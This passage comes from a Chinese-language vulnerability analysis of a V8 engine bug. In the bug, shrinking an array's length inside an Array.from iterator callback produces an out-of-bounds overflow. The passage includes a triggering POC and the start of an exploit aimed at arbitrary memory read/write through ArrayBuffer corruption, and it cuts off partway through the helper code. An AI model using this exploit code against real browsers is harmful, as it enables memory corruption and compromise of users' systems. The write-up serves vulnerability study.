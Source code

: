 可以看到当迭代完成也就是`loop_done`的时候，将迭代次数`index`赋值给了`length`变量，然后最后，调用`GenerateSetLength`函数将这个length设置到array对象里

```
// Finally set the length on the output and return it.
  GenerateSetLength(context, array.value(), length.value());
```

而`GenerateSetLength`函数将迭代次数与原来的数组长度进行对比，如果比原来的小，就调用js层的`SetProperty`函数将arr的length设置，否则直接将length值写入。这里看似没有什么问题，但是问题就发生在回调的逻辑里，这里是假设了array对象的length和迭代次数`同步的递增`，我们可以在迭代回调函数里趁机把array对象的length给改小，然后进入`GenerateSetLength(context, array.value(), length.value())`函数时就可以绕过`GotoIf(SmiLessThan(length_smi, old_length), &amp;runtime);`函数，直接将迭代次数设置为array对象的length。调用`SetProperty`和使用`StoreObjectFieldNoWriteBarrier(fast_array, JSArray::kLengthOffset, length_smi);`来设置length的不同之处在于`SetProperty`是js层的，调用它来设置会顺便将elements扩容或收缩，而`StoreObjectFieldNoWriteBarrier(fast_array, JSArray::kLengthOffset, length_smi);`函数不回调，直接在内存里写上这个值。因此，不扩容，就造成了溢出。

#### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

POC

```
let arr = [1.1];
Array.from.call(function() `{` return arr `}`, `{`[Symbol.iterator] : _ =&gt; (
  `{`
    counter : 0,
    next() `{`
      let result = this.counter++;
      if (this.counter &gt; 10) `{`
        arr.length = 1;
        return `{`done: true`}`;
      `}` else `{`
        return `{`value: result, done: false`}`;
      `}`
    `}`
  `}`
) `}`);
%DebugPrint(arr);
%SystemBreak();
```

可以看到length为10，然而elements的长度值却为1

[![](https://p4.ssl.qhimg.com/t01cb0a26697f527b6e.png)](https://p4.ssl.qhimg.com/t01cb0a26697f527b6e.png)

由此，我们利用溢出，改写ArrayBuffer的length和backing_store即可实现任意地址读写<br>
exp

```
var buf = new ArrayBuffer(0x8);
var dv = new DataView(buf);

function p64f(value1,value2) `{`
   dv.setUint32(0,value1,true);
   dv.setUint32(0x4,value2,true);
   return dv.getFloat64(0,true);
`}`

function i2f64(value) `{`
   dv.setBigUint64(0,BigInt(value),true);
   return dv.getFloat64(0,true);
`}`

function u64_l(value) `{`
   dv.setFloat64(0,value,true);
   return dv.getUint32(0,true);
`}`
```